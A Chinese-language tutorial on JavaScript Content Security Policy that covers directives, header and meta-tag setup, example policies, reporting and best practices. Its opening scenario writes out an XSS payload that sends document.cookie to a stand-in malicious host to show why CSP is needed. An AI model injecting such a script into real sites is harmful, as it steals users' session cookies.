

# JavaScript 内容安全策略

## 什么是内容安全策略？

内容安全策略（Content Security Policy，简称CSP）是一种额外的安全层，用于帮助检测和减轻某些类型的攻击，包括跨站脚本(XSS)和数据注入攻击。这些攻击可用于实现从数据窃取到网站破坏或恶意软件分发等各种目的。

CSP通过声明哪些动态资源允许加载来工作，从而限制浏览器只能执行来自可信来源的代码。

:::tip 核心概念
CSP的主要目标是减少或消除XSS攻击的可能性。XSS攻击利用用户对网站的信任，使得攻击者能够将恶意代码注入到可信网站中。
:::

## 为什么需要CSP？

考虑这个常见场景：

1. 你的网站允许用户评论
2. 攻击者在评论中插入恶意JavaScript代码：`<script>document.location='http://malicious-site.com/steal.php?cookie='+document.cookie</script>`
3. 其他用户查看该评论时，恶意脚本会执行，可能会窃取他们的cookie信息

有了CSP，你可以告诉浏览器"只执行来自我的网站的脚本，拒绝所有其他来源的脚本"，从而阻止这种攻击。

## 如何实现CSP

### 1. 使用HTTP头部

最常见的实现方式是在HTTP响应中添加`Content-Security-Policy`头部：

```javascript
// 服务器端代码示例（Node.js + Express）
app.use((req, res, next) => {
  res.setHeader(
    'Content-Security-Policy',
    "default-src 'self'; script-src 'self' https://trusted-cdn.com;"
  );
  next();
});
```

### 2. 使用HTML meta标签

你也可以在HTML中使用`<meta>`标签来设置CSP：

```html
<head>
  <meta http-equiv="Content-Security-Policy" 
        content="default-src 'self'; script-src 'self' https://trusted-cdn.com;">
</head>
```

## CSP指令详解

CSP包含许多指令，每个指令控制特定类型资源的加载策略：

| 指令 | 描述 |
|------|------|
| `default-src` | 所有资源类型的默认策略 |
| `script-src` | JavaScript源 |
| `style-src` | CSS样式表源 |
| `img-src` | 图片源 |
| `connect-src` | 限制可通过脚本接口连接的地址 |
| `font-src` | 字体文件源 |
| `object-src` | 插件源（如Flash） |
| `media-src` | 音视频源 |
| `frame-src` | 框架源 |

### 常见的源值（Source Values）

- `'self'` - 当前域
- `'none'` - 不允许任何源
- `'unsafe-inline'` - 允许内联代码（不推荐）
- `'unsafe-eval'` - 允许使用eval()（不推荐）
- URL - 特定域名，如 `https://trusted-cdn.com`
- `*` - 任何源（谨慎使用）

## CSP实际案例

### 基本保护网站

```html
<head>
  <meta http-equiv="Content-Security-Policy" 
        content="default-src 'self';">
</head>
```

这个简单的策略只允许从同一源加载所有资源。

### 允许来自CDN的资源

```html
<head>
  <meta http-equiv="Content-Security-Policy" 
        content="default-src 'self'; 
                 script-src 'self' https://cdn.jsdelivr.net; 
                 style-src 'self' https://stackpath.bootstrapcdn.com;">
</head>
```

这个策略允许从特定CDN加载脚本和样式。

### 只允许特定内联脚本

如果你必须使用内联脚本，可以通过散列值允许特定脚本：

```html
<head>
  <meta http-equiv="Content-Security-Policy" 
        content="script-src 'self' 'sha256-hashOfYourInlineScript';">
</head>
<script>
  // 只有匹配指定散列值的脚本才能执行
  console.log('Hello, secure world!');
</script>
```

要获取脚本的SHA-256哈希值，可以使用在线工具或通过命令行：

```bash
echo -n 'console.log("Hello, secure world!");' | openssl dgst -sha256 -binary | openssl base64
```

## 使用CSP的最佳实践

1. **从严格策略开始，逐步放宽**：初始设置为最严格的策略，然后根据需要添加例外。
   
2. **避免使用 'unsafe-inline' 和 'unsafe-eval'**：这些设置会削弱CSP的保护。

3. **使用报告功能**：添加 `report-uri` 指令来接收违规报告：

   ```html
   <meta http-equiv="Content-Security-Policy" 
         content="default-src 'self'; report-uri /csp-violation-report-endpoint">
   ```

4. **先测试再部署**：使用 `Content-Security-Policy-Report-Only` 头部测试你的策略：

   ```javascript
   res.setHeader(
     'Content-Security-Policy-Report-Only',
     "default-src 'self'; script-src 'self';"
   );
   ```

5. **定期更新策略**：随着网站变化和新威胁出现，定期审查和更新CSP。

## CSP实现流程图



## 可能遇到的挑战

实施CSP可能会面临一些挑战：

1. **第三方脚本**：许多网站依赖第三方脚本（如广告、分析工具），这些可能不符合严格的CSP。

2. **内联代码**：历史遗留代码中可能有大量内联脚本和样式，需要重构。

3. **动态生成的代码**：某些框架生成动态内联代码，可能需要特别处理。

:::caution 常见误区
许多开发者为了快速解决CSP违规而添加 `'unsafe-inline'` 和 `'unsafe-eval'`，这严重削弱了CSP的保护能力。应该找到更安全的替代方案。
:::

## 实际案例：电子商务网站的CSP实现

假设你正在为一个电子商务网站实现CSP，该网站使用：
- 自己的JavaScript和CSS
- Google Analytics
- Stripe支付处理
- 来自AWS S3的产品图片
- YouTube嵌入视频

一个合适的CSP可能是：

```html
<meta http-equiv="Content-Security-Policy" content="
    default-src 'self';
    script-src 'self' https://www.google-analytics.com https://js.stripe.com;
    style-src 'self';
    img-src 'self' https://*.s3.amazonaws.com data:;
    frame-src https://www.youtube.com https://checkout.stripe.com;
    connect-src 'self' https://api.stripe.com;
    font-src 'self';
    report-uri /csp-violation-endpoint;
">
```

## 测试你的CSP

你可以使用浏览器开发者工具来测试CSP。如果有违规，控制台会显示错误信息，例如：

```
Refused to load the script 'https://malicious-script.com/hack.js' because it violates the following Content Security Policy directive: "script-src 'self' https://www.google-analytics.com".
```

还可以使用在线工具如[CSP Evaluator](https://csp-evaluator.withgoogle.com/)来分析你的策略。

## 总结

内容安全策略是防范XSS和其他代码注入攻击的强大工具。通过正确实施CSP，你可以：

1. 显著减少XSS攻击的风险
2. 控制你的网站可以加载哪些资源
3. 减少违规行为并获得安全漏洞报告

虽然实施CSP可能需要一些前期工作，特别是对于现有网站，但它提供的安全价值远远超过了这些努力。

## 练习

1. 为你的个人项目网站创建一个基本的CSP策略。
2. 尝试在浏览器控制台中模拟CSP违规，并观察报错信息。
3. 修改一个现有网站的CSP，使其仅允许从特定CDN加载资源。
4. 实现CSP报告功能，并分析收到的违规报告。

## 附加资源

- [MDN Web Docs: Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [Google's CSP Guide](https://developers.google.com/web/fundamentals/security/csp)
- [CSP Cheat Sheet by OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html)
- [Content Security Policy Level 3 Specification](https://www.w3.org/TR/CSP3/)

通过逐步实施和完善你的内容安全策略，你可以显著提高你的网站安全性，保护用户免受XSS和其他代码注入攻击的威胁。